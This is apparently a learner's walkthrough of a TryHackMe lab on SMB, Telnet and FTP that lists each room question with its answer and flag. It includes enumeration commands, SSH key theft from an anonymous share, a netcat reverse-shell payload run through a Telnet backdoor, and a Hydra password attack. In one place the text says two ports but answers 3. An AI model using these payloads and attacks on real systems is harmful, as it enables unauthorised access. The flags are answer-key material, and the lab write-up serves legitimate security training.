---

# **Network Services TryHackMe Room Walkthrough**

---

### **Overview**

This lab focused on the enumeration and exploitation of common network services, including SMB, Telnet, and FTP. The objective was to understand how these services operate, identify misconfigurations, perform reconnaissance, and leverage discovered weaknesses to gain access to target systems.

### **Task 2: Understanding SMB**

**SMB (Server Message Block)** is a client-server communication protocol used for sharing files, printers, serial ports, and other network resources.

SMB operates as a request-response protocol, requiring multiple message exchanges between a client and a server before a session is established. Communication occurs over TCP/IP, utilizing the standard TCP three-way handshake.

Microsoft has included SMB support in Windows operating systems since Windows 95. On Unix and Linux systems, SMB functionality is commonly provided through Samba, an open-source implementation of the protocol.

#### **Questions**

**What does SMB stand for?**

**Answer:** Server Message Block

---

**What type of protocol is SMB?**

SMB uses a request-response communication model, where multiple messages are exchanged between the client and server to establish and maintain a connection.

**Answer:** Request-response

---

**What do clients use to connect to SMB servers?**

**Answer:** TCP/IP

---

**What operating systems typically run Samba?**

Samba is an open-source implementation of SMB that runs primarily on Unix and Linux systems.

**Answer:** Unix

### **Task 3: Enumerating SMB**

Enumeration is the process of gathering information about a target system to identify potential attack vectors. Information collected during this phase may include open ports, services, usernames, shares, operating systems, and sensitive data.

SMB shares often contain valuable information and are therefore an excellent starting point during a penetration test.

For this exercise, Nmap was used for service discovery and Enum4Linux was used to enumerate SMB-specific information.

#### **Questions**

**Conduct an Nmap scan of your choice. How many ports are open?**

The target IP address was first stored as an environment variable:

```bash
export ip=10.113.145.10
```

A standard Nmap scan was then performed:

```bash
nmap $ip 
```

The scan identified three open ports.



**Answer:** 3

---

**What ports is **SMB** running on? Provide the ports in ascending order.**

SMB commonly operates on:

- TCP 139 (NetBIOS Session Service)
- TCP 445 (SMB over TCP)

**Answer:** 139/445

---

**Let's get started with Enum4Linux, conduct a full basic enumeration. For starters, what is the **workgroup** name?**

The following command was used:

```bash
enum4linux -a $ip
```

Enumeration results revealed the workgroup name.

**Answer:** WORKGROUP



---

**What comes up as the **name** of the machine?**

The hostname was identified during enumeration.

**Answer:** POLOSMB

**What operating system **version** is running?**

The operating system version was disclosed through SMB enumeration.

**Answer:** 6.1



---

**What share sticks out as something we might want to investigate?**

Reviewing the available SMB shares revealed a share named **profiles**, which appeared to contain user-related data.

**Answer:** profiles



### **Task 4: Exploiting SMB**

SMB shares can be accessed using SMBClient, which is available on Kali Linux.

General syntax:

```bash
smbclient //<IP>/<SHARE>
```

Useful options:

```bash
-U <username>    # Specify username
-p <port>        # Specify port
```

#### **Questions**

**What would be the correct syntax to access an SMB share called "secret" as user "suit" on a machine with the IP 10.10.10.2 on the default port?**

**Answer:**

```bash
smbclient //10.10.10.2/secret -U suit -p 445
```

---

**Does the share allow anonymous access? (Y/N)**

The share was accessed using the Anonymous account:

```bash
smbclient //$ip/profiles -U Anonymous
```

Authentication succeeded without a password.



**Answer:** Y

---

**Great! Have a look around for any interesting documents that could contain valuable information. Who can we assume this profile folder belongs to?**

After listing the directory contents:

```bash
ls
```

A file named:

```
Working From Home Information.txt
```

was identified and reviewed:

```bash
more "Working From Home Information.txt"
```

The document referenced a user named John Cactus.

**Answer:** John Cactus



---

**What service has been configured to allow him to work from home?**

The document indicated that SSH had been configured for remote access.

**Answer:** SSH

---

**Okay! Now we know this, what directory on the share should we look in?**

SSH keys are typically stored within the user's `.ssh` directory.

**Answer:** .ssh

---

**This directory contains authentication keys that allow a user to authenticate themselves on, and then access, a server. Which of these keys is most useful to us?**

After navigating to the directory:

```bash
cd .ssh
ls
```

Two files were identified:

```
id_rsa
id_rsa.pub
```

The private key is the most valuable file because it can be used for authentication.

**Answer:** id_rsa

**Download the private key and use it to access the system. What is the SMB flag?**

The private key was downloaded:

```bash
get id_rsa
```



Permissions were modified:

```bash
chmod 600 id_rsa
```

The username was recovered from the public key:

```bash
more id_rsa.pub
```



SSH access was then established:

```bash
ssh -i id_rsa cactus@$ip
```

After obtaining a shell, the file `smb.txt` was located and read.

**Answer:** THM{smb_is_fun_eh?}



### **Task 5: Understanding Telnet**

**Telnet** is an application-layer protocol that allows users to establish remote connections to systems and execute commands through a Telnet client.

Although Telnet provides functionality similar to SSH, a major difference is that Telnet transmits all data in plaintext. Because communications are not encrypted, Telnet has largely been replaced by SSH in modern environments.

#### **Questions**

**Is Telnet a client-server protocol (Y/N)?**

**Answer:** Y

---

**What has slowly replaced Telnet?**

Due to the lack of encryption and associated security risks, Telnet has been replaced by SSH in most environments.

**Answer:** SSH

---

**How would you connect to a Telnet server at 10.10.10.3 on port 23?**

**Answer:**

```bash
telnet 10.10.10.3 23
```

---

**The lack of what, means that all Telnet communication is in plaintext?**

Telnet does not provide encrypted communications.

**Answer:** Encryption

### **Task 6: Enumerating Telnet**

The first step in assessing the target was to identify open ports and running services using Nmap.

#### **Questions**

**How many **ports** are open on the lab machine?**

First, the target IP address was stored as an environmental variable:

```bash
export ip=<target-ip>
```

A full TCP port scan was then performed:

```bash
nmap -Pn -T4 -p- $ip
```

Where:

- `-p-` scans all 65,535 TCP ports
- `-T4` increases scan speed
- `-Pn` disables host discovery

The scan identified a single open port.

**Answer:** 1

---

**What **port** is this?**

The scan results revealed the following open port:

**Answer:** 8012



---

**This port is unassigned, but still lists the **protocol** it's using, what protocol is this?**

Although port 8012 is not commonly assigned to a standard service, Nmap identified it as using TCP.

**Answer:** TCP

---

**Now re-run the **nmap** scan, without the **-p-** tag, how many ports show up as open?**

Running a default scan:

```bash
nmap $ip 
```

did not identify any open ports because Nmap's default scan range does not include port 8012.

**Answer:** 0



---

**Based on the banner information, what appears to be running on this port?**

To perform further analysis, the scan was focused on the discovered port:

```bash
nmap -p 8012 -sV $ip -oN output.txt
```

Banner information revealed the service name:

```
SKIDY'S BACKDOOR
```

**Answer:** SKIDY'S BACKDOOR



**Who might this service belong to?**

Based on the service banner, a likely username can be inferred.

**Answer:** Skidy

### **Task 7: Exploiting Telnet**

After identifying the Telnet service and associated username, the next objective was to determine whether the service allowed remote command execution and to obtain a shell on the target system.

#### **Questions**

**Connect to the Telnet service. What welcome message is displayed?**

The connection was established using:

```bash
telnet $ip 8012
```

Upon successful connection, the service returned the following banner:

**Answer:** SKIDY'S BACKDOOR



---

**Do commands entered into the session return output? (Y/N)**

Initial testing showed that commands could be entered, but no output was returned.

**Answer:** N

---

**Can system commands be executed through the service? (Y/N)**

To verify command execution, ICMP traffic was monitored on the attacking machine.

Using the AttackBox:

```bash
sudo tcpdump ip proto \\icmp -i eth0
```

Using OpenVPN:

```bash
sudo tcpdump ip proto \\icmp -i tun0
```

The following command was then executed through the Telnet service:

```bash
.RUN ping <attacker-ip> -c 1
```

The ICMP request was successfully received, confirming remote command execution capability.

**Answer:** Y

---

**What word does the generated payload start with?**

A reverse shell payload was generated using MSFVenom:

```bash
msfvenom -p cmd/unix/reverse_netcat lhost=<attacker-ip> lport=4444 R
```

Example output:

```bash
mkfifo /tmp/xxxx; nc <attacker-ip> 4444 0</tmp/xxxx | /bin/sh >/tmp/xxxx 2>&1; rm /tmp/xxxx
```

The payload begins with:

**Answer:** mkfifo

---

**What would the command look like for the listening port we selected in our payload?**

Since port 4444 was specified during payload generation, a listener was started on the attacking machine:

```bash
nc -lvp 4444
```

**Answer:**

```bash
nc -lvp 4444
```

---

**Execute the payload and obtain a shell. What is the Telnet flag?**

After starting the Netcat listener, the generated payload was executed through the Telnet service.

Example payload:

```bash
mkfifo /tmp/pzcq; nc <attacker-ip> 4444 0</tmp/pzcq | /bin/sh >/tmp/pzcq 2>&1; rm /tmp/pzcq
```

This established a reverse shell connection back to the attacking machine.

Once shell access was obtained, the Telnet flag was located and read from the target system.

**Answer:** THM{y0u_g0t_th3_t3ln3t_fl4g}

### **Task 8: Understanding FTP**

**FTP (File Transfer Protocol)** is a network protocol used to transfer files between systems. It follows a client-server architecture, where a client initiates a connection to an FTP server, authenticates, and establishes a session for file transfers.

FTP uses two separate communication channels:

- **Command Channel** – Used for sending commands and receiving responses.
- **Data Channel** – Used for transferring files and directory listings.

FTP supports two connection modes:

- **Active Mode** – The client opens a port and listens for incoming connections from the server.
- **Passive Mode** – The server opens a port and waits for the client to connect.

#### **Questions**

**What communication model does FTP use?**

FTP operates using a client-server architecture.

**Answer:** Client-server

**What's the standard FTP port?**

FTP servers listen on TCP port 21 by default.

**Answer:** 21

**How many modes of FTP connection are there?**

FTP supports two connection modes.

**Answer:** 2

### **Task 9: Enumerating FTP**

The objective of this phase was to identify exposed FTP services, determine whether anonymous access was permitted, and collect information that could assist in obtaining valid credentials.

#### **Questions**

**Run an Nmap scan of your choice. How many ports are open?**

First, the target IP address was stored as an environment variable:

```bash
export ip=10.113.174.206
```

To perform a more comprehensive assessment, a full port scan was conducted:

```bash
nmap -p- -T4 $ip
```

The extended scan revealed two open ports.

**Answer:** 3



---

**What port is FTP running on?**

The scan identified FTP running on its default port.

**Answer:** 21

---

**What **variant** of FTP is running on it?**

Additional service enumeration was performed:

```bash
nmap -p 21 -sV $ip
```

Version detection revealed the FTP service implementation.

**Answer:** vsftpd



**What is the name of the file in the anonymous FTP directory?**

Nmap enumeration indicated that anonymous login was enabled.

An anonymous FTP session was established:

```bash
ftp $ip
```

Credentials used:

```
Username: anonymous
Password: <blank>
```

After authentication, a file was discovered within the FTP share.

**Answer:** PUBLIC_NOTE.txt



**What is a possible username discovered during enumeration?**

The file was downloaded and reviewed:

```bash
get PUBLIC_NOTE.txt
```

The contents referenced a user named Mike.

**Answer:** mike

### **Task 10: Exploiting FTP**

After identifying a valid username, the next objective was to obtain the corresponding password through a dictionary attack and gain authenticated access to the FTP service.

#### **Questions**

**What is the password for the user "mike"?**

A password attack was performed using Hydra and the RockYou wordlist:

```bash
hydra -t 4 -l mike -P /usr/share/wordlists/rockyou.txt $ip ftp
```

Where:

- `t 4` specifies four concurrent tasks
- `l mike` specifies the target username
- `P` specifies the password wordlist

The attack successfully identified the user's password.

**Answer:** password



---

**What is ftp.txt?**

Using the recovered credentials, an authenticated FTP session was established:

```bash
ftp $ip
```

Credentials used:

```
Username: mike
Password: password
```

After authentication, the available files were listed:

```bash
ls
```

A file named `ftp.txt` was identified and downloaded:

```bash
get ftp.txt
```

The file contained the challenge flag.

**Answer:** THM{y0u_g0t_th3_ftp_fl4g}



### **Skills Demonstrated**

- Network reconnaissance with Nmap
- SMB enumeration using Enum4Linux
- SMB share analysis and credential harvesting
- SSH key-based authentication attacks
- Service banner enumeration
- Telnet exploitation
- Reverse shell generation and execution
- Packet analysis using Tcpdump
- FTP enumeration and anonymous access testing
- Password auditing with Hydra
- Privilege escalation methodology and post-exploitation enumeration

### **Conclusion**

This lab demonstrated how seemingly minor service misconfigurations can lead to complete system compromise. Through systematic enumeration, credential discovery, service exploitation, and remote access techniques, I successfully compromised SMB, Telnet, and FTP services while gaining practical experience with common penetration testing tools and methodologies.